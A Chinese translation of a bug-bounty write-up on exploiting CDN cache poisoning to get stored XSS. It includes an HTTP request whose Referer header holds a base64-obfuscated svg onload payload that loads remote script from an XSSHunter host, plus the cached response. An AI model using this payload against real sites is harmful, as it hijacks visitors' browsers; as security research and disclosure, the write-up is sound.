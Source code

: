 # 我如何通过入侵 CDN 缓存服务器赚到 16500 美元——第 1 部分

> 原文：<https://infosecwriteups.com/how-i-made-15-000-by-hacking-caching-servers-part-1-5541712a61c3?source=collection_archive---------0----------------------->

## @bxmbn

![](img/0e9c917ff9ee765e0488c6c45b3afa3b.png)

# *缓存中毒到存储的 XSS*

> *赏金:6300 美元*

这实际上是我的第一次缓存中毒，我最初报告它是一个缓存欺骗问题，因为这是我当时所知道的关于缓存利用的所有信息，以及为什么这最终被分类并作为缓存中毒奖励给存储的 XSS 的原因，是因为分类者打开了我的眼睛，告诉我寻找一个自我 XSS，所以它可以被分类为高或关键。

我能够通过 Referer 头注入 Javascript，但攻击者仍然需要将中毒的 URL 发送给受害者，因为 URL 需要被攻击者修改，所以缓存服务器可以保存它。

经过一番谷歌搜索，我找到了一个直接被缓存的 URL，没有任何扩展名。这就是我所需要的一切，:D

我迅速更新了报告。

通过保存我的 XSSHunter 有效负载而没有任何“缓存破坏者”(？param=123)然后，对缓存服务器计时，直到它刷新并发送请求。

## 请求:

```
GET /xxxx/xxxx/xxx HTTP/2
Host: Redacted
Referer: ?</script><svg/onload=eval/**/(atob/**/(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vNTkzLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=>
...
```

## 回应:

```
HTTP/2 200 Ok...
Content-Type: text/html; charset=utf-8
X-Cache: HIT
...<html>...<script>..."Referer":"?</script>
<svg/onload=eval/**/(atob/**/(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vNTkzLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=>...
```

第二天醒来，我收到了来自 XSSHunter 的 35 个通知，令我惊讶的是，其中 4 个是在不同的子域上被解雇的。

![](img/0d6aa9062c783584537d91871022616d.png)

# ***时间轴:***

> 报道→2021 年 11 月 7 日
> 
> 分流→2021 年 11 月 11 日
> 
> 悬赏奖金→2021 年 11 月 17 日

# 接下来:

第 2 部分:隐藏 XSS 的好方法

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)